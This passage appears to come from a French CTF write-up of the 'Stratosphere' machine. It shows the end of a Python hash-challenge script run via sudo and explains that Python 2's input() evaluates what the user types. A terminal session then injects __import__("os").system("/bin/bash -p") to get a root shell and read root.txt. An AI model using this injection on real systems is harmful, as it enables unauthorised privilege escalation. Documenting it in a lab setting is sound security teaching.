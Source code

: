 ```python
    print("WOW, you're really good at this!")
    q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")
    md4 = hashlib.new('md4')
    md4.update(q3.encode())
    if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9':
        print("Yeah, I don't think that's right.")
        return
    print("OK, OK! I get it. You know how to crack hashes...")
    q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
    blake = hashlib.new('BLAKE2b512')
    blake.update(q4.encode())
    if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':
        print("You were so close! urg... sorry rules are rules.")
        return

    import os
    os.system('/root/success.py')
    return

question()
```

Ça semblait un peut gros d'avoir à résoudre un exercice style [jeopardy](https://en.wikipedia.org/wiki/Capture_the_flag) après être passé par des étapes que l'on aurait pu croiser dans [la réalité vraie](https://www.youtube.com/watch?v=QwVK_QBdK2A).  

Ici, on voit clairement la présence d'*env\_reset* dans la ligne sudo donc pas de bypass via une variable d'environnement possible (*PYTHONPATH*, *PYTHONSTARTUP*, etc).  

Il est temps de se pencher sur le contenu du code et avec mon background Python j'ai rapidement tilté sur l'utilisation de *input()* [qui est considéré non-sûr via Python2](https://stackoverflow.com/questions/31175820/simple-explanation-of-security-issues-related-to-input-vs-raw-input), ou devrais-je plutôt dire [c'est une feature expliquée noir sur blanc](https://docs.python.org/2.7/library/functions.html#input).  

```plain
richard@stratosphere:~$ sudo python2 /home/richard/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("/bin/bash -p")
root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
root@stratosphere:/home/richard# cd /root
root@stratosphere:~# cat root.txt
d41d8cd98f00b204e9800998ecf8427e
root@stratosphere:~# exit
exit
Traceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 8, in question
    md5.update(q1.encode())
AttributeError: 'int' object has no attribute 'encode'
```
